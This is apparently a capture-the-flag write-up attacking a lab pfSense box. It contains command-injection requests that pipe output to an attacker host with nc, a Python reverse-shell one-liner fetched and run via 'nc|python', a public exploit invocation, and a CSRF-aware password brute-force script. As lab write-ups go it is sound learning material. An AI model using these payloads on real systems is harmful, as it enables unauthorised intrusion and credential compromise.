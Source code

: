 # Enumeration
```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login
|_ssl-date: TLS randomness does not represent time
```
We find a webpage:
![](attachment/0f07534b614c00de31e3ac55d6f119f9.png)
Now copying as curl command from burpsuite after intercepting a test login:
```bash
for i in $(seq 0 15); do
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.10.60' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Referer: https://10.10.10.60/' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 118' -H $'Origin: https://10.10.10.60' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' -H $'Te: trailers' -H $'Connection: close' \
    -b $'PHPSESSID=cc5f3189111a786c96a6f2f22db09759; cookie_test=1709355824' \
    --data-binary $'__csrf_magic=sid%3A0412e6b2e8e561be33172f221b0a66e1529b036f%2C1709352224&usernamefld=test&passwordfld=test&login=Login' \
    $'https://10.10.10.60/index.php'
echo $i
done
```
The box bans us after 15 attempts
# Method 1 
Using exploit from github
https://github.com/lawrencevanlaere/pfsense-code-exec/blob/master/pfsense_exec.py
`python3 pfsense_exec.py nc`
![](attachment/e685881c132b983a2c2668f326d9c206.png)

# Method 2
Following the third method here https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/

Opening the rrd graph:
![](attachment/ac79047d3a3eb6d5058caa0268bbcfc5.png)
Following the instructions and doing the following in burpsuite:
```http
GET /status_rrd_graph_img.php?&database=queues;whoami|nc+10.10.14.24+1234 HTTP/1.1
Host: 10.10.10.60
Cookie: PHPSESSID=cc5f3189111a786c96a6f2f22db09759; cookie_test=1709357032
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.10.10.60/status_rrd_graph.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
And listening on `nc -lnvp 1234` as there is no standard output

Now checking badchars with:
`echo+abc/|nc+10.10.14.24+1234`
Now we get no output
So / is a badchar.
Checking env with  `env|nc+10.10.14.24+1234`
![](attachment/11d67135906720fc00cd604b821864a4.png)
We find that HOME is / so we can use backslash from there
Now can read user.txt and root.txt

For shell though we know that - and / are bad characters so using printf command:
To get -:
`x=$(printf+"\55");echo+$x|nc+10.10.14.24+1234 `

Now to get a reverse shell:
cmd as:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.22",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Now setting nc so that it sends the file cmd:
`nc -lnvp 9001 < cmd`
Then on burpsuite `nc 10.10.14.24 9001|python&`
Now we get a shell:
![](attachment/ae8dbe9afd12a5f2515b9691f29d9452.png)
# BruteForce
First getting a post request in burpsuite:
![](attachment/1396d8a660fc8860b411a2fce10befa7.png)
Now copying the required part.
We need the csrfmagicktoken from the website so using ctrl+U
![](attachment/a518e9b6046624074d1f808aae359327.png)
Now writing a python script to bruteforce the password:
```python
import requests
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

re_csrf = 'csrfMagicToken = "(.*?)"'
s = requests.session()
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
lines = open('passwords.txt')
for password in  lines:
        r = s.post('https://10.10.10.60/index.php',verify=False)
        csrf = re.findall(re_csrf,r.text)[0]
        login = {'__csrf_magic':csrf, 'usernamefld': 'rohit','passwordfld':password[:-1],'login':'Login'}
        r = s.post('https://10.10.10.60/index.php',data=login)
        if "Dashboard" in r.text:
                print("Valid Login %s:%s" % ("rohit",password))
        else:
                print("failed %s:%s" % ("rohit",password))
                s.cookies.clear()
```
Can use burpsuite proxy to intercept the request too.